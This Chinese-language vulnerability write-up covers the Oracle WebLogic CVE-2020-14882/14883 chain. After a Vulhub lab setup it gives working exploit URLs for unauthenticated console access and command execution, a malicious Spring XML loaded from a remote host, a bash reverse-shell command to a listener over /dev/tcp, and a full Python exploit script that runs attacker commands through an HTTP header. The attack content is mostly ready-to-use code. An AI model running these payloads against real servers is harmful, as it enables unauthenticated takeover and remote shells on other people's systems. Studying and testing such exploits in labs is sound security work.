





# Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## 环境搭建

Vulhub执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:7001/console`即可查看到后台登录页面。



## Xray

```
VulnType         "poc-yaml-weblogic-cve-2020-14750/default"
links            ["https://www.oracle.com/security-alerts/alert-cve-2020-14750.html"]
weblogic_version "10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0"
```

## 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```



访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/awesome_poc');")
```

进入容器，可以发现`touch /tmp/awesome_poc`已成功执行：



这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch awesome_poc_xml]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

进入容器，可以发现`touch /tmp/awesome_poc_xml`已成功执行：



这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

### 反弹shell

通过漏洞poc反弹shell：

```
python CVE-2020-14882.py -u http://192.168.174.128:7001 -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" 
```

监听9999端口，成功接收反弹shell：



## 漏洞POC

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan
